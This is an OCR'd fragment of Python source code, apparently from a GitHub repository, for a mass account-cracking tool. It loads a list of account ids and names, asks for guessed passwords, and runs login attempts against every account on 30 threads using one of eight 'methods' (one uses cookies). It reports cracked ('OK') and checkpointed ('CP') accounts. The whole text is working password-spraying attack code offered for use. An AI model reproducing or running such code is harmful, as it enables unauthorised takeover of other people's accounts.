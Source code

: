				try:
					fo = open(file,'r').read().splitlines()
				except FileNotFoundError:
					print(' File location not found ')
					time.sleep(1)
					menu()
				clear()
				print(' All method working ')
				linex()
				print(' \033[1;33m[1] \033[1;37mMethod  (for mix ids)  \033[1;32m (fast) \n\033[1;33m [2] \033[1;37mMethod  (for mix ids) \033[1;32m  (best)  \n\033[1;33m [3]\033[1;37m Method  (with cokies)\033[1;32m   (v.fast) \n\033[1;33m [4]\033[1;37m Method  (for new ids)\033[1;32m   (best) \n \033[1;33m[5] \033[1;37mMethod  (for new ids) \033[1;32m  (slow) \n \033[1;33m[6] \033[1;37mMethod  (for new ids) \n \033[1;33m[7] \033[1;37mMethod  (for new ids) \n \033[1;33m[8] \033[1;37mMethod  (for new ids) ')
				linex()
				mthd=input(' Choose: ')
				linex()
				plist = []
				try:
					ps_limit = int(input(' How many passwords do you want to add ? '))
				except:
					ps_limit =1
				clear()
				print('\033[1;32m exp: first last,firtslast,first123')
				linex()
				for i in range(ps_limit):
					plist.append(input(f' Put password {i+1}: '))
				clear()
				print(' Do you went show cp account? (y/n): ')
				linex()
				cx=input(' Choose: ')
				if cx in ['y','Y','yes','Yes','1']:
					pcp.append('y')
				else:
					pcp.append('n')
				with tred(max_workers=30) as crack_submit:
					clear()
					total_ids = str(len(fo))
					print(' Total account ids : \033[1;32m'+total_ids+f' ')
					print(' \033[1;37mThe process is running in the background')
					linex()
					for user in fo:
						ids,names = user.split('|')
						passlist = plist
						if mthd in ['1','01']:
							crack_submit.submit(api1,ids,names,passlist)
						elif mthd in ['2','02']:
							crack_submit.submit(api2,ids,names,passlist)
						elif mthd in ['3','03']:
							crack_submit.submit(api3,ids,names,passlist)
						elif mthd in ['4','04']:
							crack_submit.submit(api4,ids,names,passlist)
						elif mthd in ['5','05']:
							crack_submit.submit(api5,ids,names,passlist)
						elif mthd in ['6','06']:
							crack_submit.submit(api6,ids,names,passlist)
						elif mthd in ['7','07']:
							crack_submit.submit(api7,ids,names,passlist)
						elif mthd in ['8','08']:
							crack_submit.submit(api8,ids,names,passlist)
				print('\033[1;37m')
				linex()
				print(' The process has completed')
				print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
